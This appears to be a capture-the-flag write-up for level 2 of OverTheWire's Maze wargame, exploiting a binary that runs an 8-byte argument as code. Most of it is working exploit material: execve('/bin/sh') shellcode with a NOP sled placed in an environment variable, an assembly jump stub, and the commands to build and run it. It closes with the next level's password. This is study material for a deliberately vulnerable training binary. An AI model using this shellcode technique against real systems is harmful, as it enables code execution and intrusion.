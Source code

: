
---
**Challenge URL:** [Maze Wargame](https://overthewire.org/wargames/)

---

### 🔐 Level Goal:

> The binary takes user input, copies it into an 8-byte buffer using `strncpy()`, and **executes it as shellcode**. However, since the input size is just 8 bytes, we need to **bypass the length limitation** to spawn a shell.

---

### 🧠 Concepts Covered:

- 🐚 Shellcode injection via environment variable
    
- 📦 Assembly to jump to environment memory
    
- 🛠 `nasm`, `ld`, and `objdump` for shellcode crafting
    
- 💥 Stack execution and `execve` syscall
    

---

### 🔎 Binary Behavior

From decompiled logic:

```c
char buf[8];
strncpy(buf, argv[1], 8);
((void (*)())buf)();  // Executes buf as code
```

We can't fit a full `/bin/sh` shellcode in 8 bytes — so instead, we’ll:

> Place the **real shellcode in an environment variable** and use the 8-byte buffer to **jump to it**.

---

### 🧨 Step-by-Step Exploit

---

#### 🧬 Step 1: Craft shellcode in an environment variable

```bash
export SC=$(python3 -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68" \
"\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")')
```

- NOP sled (`\x90` x100) increases success rate
    
- Shellcode spawns a shell using `execve("/bin/sh", ...)`
    

---

#### 🔩 Step 2: Write a small assembly stub to `jmp` to env shellcode

**File:** `pwn.asm`

```asm
section .text
    global _start

_start:
    mov eax, 0xffffdf0c    ; Address of environment shellcode
    jmp eax
```

📦 Assemble and link:

```bash
nasm -f elf pwn.asm
ld -m elf_i386 -s -o pwn pwn.o
```

📜 Extract machine code:

```bash
objdump -M intel -d pwn
```

You'll get something like:

```
b8 0c df ff ff    ; mov eax, 0xffffdf0c
ff e0             ; jmp eax
```

Hex shellcode:

```bash
\xb8\x0c\xdf\xff\xff\xff\xe0
```

---

#### ▶️ Step 3: Run the binary with jump code

```bash
/maze/maze2 $(python3 -c 'print("\xb8\x0c\xdf\xff\xff\xff\xe0")')
```

This triggers the jump to our environment shellcode and spawns a shell.

---

### 🔑 Password for Maze Level 3:

```
beinguthok
```

---

